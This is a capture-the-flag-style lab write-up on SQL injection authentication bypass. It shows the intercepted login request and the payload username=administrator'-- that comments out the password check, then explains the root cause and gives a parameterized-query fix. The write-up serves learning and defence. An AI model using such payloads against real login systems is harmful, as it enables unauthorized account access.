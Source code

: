 # SQL Injection - Login bypass

## Goal:
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `username` and `password` parameters in POST request
- **Vulnerability Type**: T1190.001 - SQL Injection: Authentication Bypass (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified login parameters as potential injection points
- Performed systematic input validation testing

**Step 1: Testing Normal Login**

Attempted login with random credentials:
Username: user
Password: password

The intercepted POST request contained:
- CSRF token
- Username and password parameters
- Login form data

**Intercepted Request:**
```http
csrf=xyz&username=user&password=password
```

**Step 2: Testing SQL Injection**

```http
csrf=xyz&username=administrator'--&password=''
```

**Step 3: Understanding the Injection**

`username=administrator` attempts to log in as administrator, `'` closes the string in the SQL query. `--` comments out the rest of the query and bypasses the password check.

**The SQL query becomes:**
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '" + password + "'
```

This results in a successful login without verifying the password.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Authentication | High – Complete login bypass achieved |
| Authorization | High – Unauthorized access to administrator account |
| Confidentiality | High – Sensitive data accessible |

---

## Mitigation

**Parameterized Queries (Prepared Statements):** Parameterized queries treat user input as data and not as part of SQL code, which prevents injection. Never build SQL statements by directly concatenating user input. 

Vulnerable SQL query:
```sql
SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'
```

Safe version using prepared statements (Python):
```py
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

`?` is a parameter placeholder. It tells the database, "Expect a value here." The value is safely passed as a separate argument to `cursor.execute()`. This prevents it from being executed as SQL. Some DBs like MySQL or Oracle use `%s` or `$1` instead. Check [notes](./01-sqli-where-clause.md#notes) for more info.

---

## Reflection

This lab demonstrated how SQL injection can bypass authentication by manipulating input and commenting out the password check. The `--` comment technique proved highly effective in bypassing the password verification. Learned the critical importance of using prepared statements and proper input validation to secure authentication systems.

---

## Notes